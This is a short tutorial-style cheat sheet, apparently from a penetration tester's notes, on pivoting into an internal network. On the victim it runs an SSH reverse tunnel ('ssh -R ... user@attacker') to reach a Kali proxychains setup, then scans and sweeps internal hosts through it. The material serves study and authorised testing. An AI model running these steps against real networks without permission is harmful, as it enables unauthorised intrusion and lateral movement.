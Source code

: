 # Pivoting to an Internal Network with proxychains and SSH

Think of pivoting like: creating a tunnel for kali to wrap traffic within 
- This forces traffic from the kali machine thru the tunnel FIRST, thus allowing scanning the internal network from the victim machine
- traffic looks like it is coming from internal
- possible on any client with SSH client *OVER 7.6*

## On attacker

`sudo vim /etc/proxychains4.conf`
- Comment out `strict_chain`
- Uncomment `dynamic_chain`
- Comment out `proxy_dns`
- Uncomment `quiet_mode`
- Change the default at the bottom to: `socks5 127.0.0.1 <portUchoose>`
    - be sure this port is unique

Make sure ssh is listening -> `sudo systemctl start/status ssh.service`

## On Victim

`sudo ssh -N -f -R 127.0.0.1:<Port(proxychains.conf)> user@attacker -p <differentPort>`
- you should see the regular prompts from SSH, after accepting the connection and typing the password...
- Check on attacker box `netstat -natp` you should see an open listener on 127.0.0.1<port>
- This port that is picked NEEDS to be forwarded on the router, preferably forwarding to port 22 on the host, that way we dont need to make ssh config changes

Now you can run nmap scans and even wrap tools like msfconsole in the proxy! No need to fumble around seeing if modules are even compatable with proxies.

Keep in mind, nmap *MUST* be run with: `-sT -Pn`. Without these the scan will fail as we only have access to L7 thru proxychains.

You can run a ping sweep from the victim box by: (thanks to Gadoof for these)

Windows `for /l %i in (1,1,254) do @ping -n 1 -w 100 192.168.0.%i | find "Reply"` 

Linux `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done `

Copy the Data to kali and now you have internal targets!


